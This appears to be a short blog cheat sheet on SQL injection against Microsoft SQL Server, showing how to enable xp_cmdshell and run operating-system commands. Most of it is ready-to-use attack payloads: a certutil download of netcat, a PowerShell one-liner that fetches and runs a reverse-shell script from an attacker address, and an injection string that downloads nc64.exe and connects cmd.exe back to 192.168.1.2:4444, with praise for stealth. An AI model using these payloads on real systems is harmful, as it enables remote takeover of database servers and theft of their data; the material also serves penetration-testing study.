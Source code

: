 ```yaml
---
layout: post
title: "SQLi: MSSQL"
date: 2023-06-17
categories:
  - CHEATSHEET
tags:
  - SQLi
---
```


`xp_cmdshell` is an extended stored procedure provided by Microsoft SQL Server that allows system administrators to execute operating system commands directly from within an SQL query. 

It is disabled by default due to its powerful and potentially dangerous capabilities, but if enabled, it can be leveraged to execute arbitrary commands on the server's operating system. 


## Enable `xp_cmdshell`:

```sql
-- Enable advanced options
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
-- Enable xp_cmdshell
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Once enabled, you can execute commands directly from an SQL query:  


```sql
EXEC xp_cmdshell 'dir C:\\';  -- Lists directory contents of C:\
```


## Reverse Shell Examples

After enabling `xp_cmdshell`, you can download and execute Netcat on the target machine.  


### Example 1:

Download and execute a Netcat executable:

```sql
EXEC xp_cmdshell "certutil -urlcache -f http://example.com/nc64.exe c:/windows/temp/nc64.exe";
```

### Example 2:

Execute a PowerShell script to establish a reverse shell, which is generally more stealthy and effective:

```powershell
powershell.exe -c iex(iwr http://[IP]:[Port]/Invoke-PowerShellTcp.ps1 -UseBasicParsing); Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [Port]
```

This method leaves fewer traces and works most of the time.

### Example 3:

Chain SQL and PowerShell commands to fetch and execute Netcat, facilitating a reverse shell connection:

```sql
';EXECUTE xp_cmdshell 'powershell "Invoke-WebRequest -Uri https://github.com/int0x33/nc.exe/raw/master/nc64.exe -OutFile C:/windows/temp/nc64.exe"';-- and ';EXECUTE xp_cmdshell 'C:\windows\temp\nc64.exe 192.168.1.2 4444 -e cmd.exe';--
```

> ***Note:***
>
> Query System Catalog in MSSQL: 
>  ```sql
> SELECT * FROM INFORMATION_SCHEMA.TABLES;
>  ```

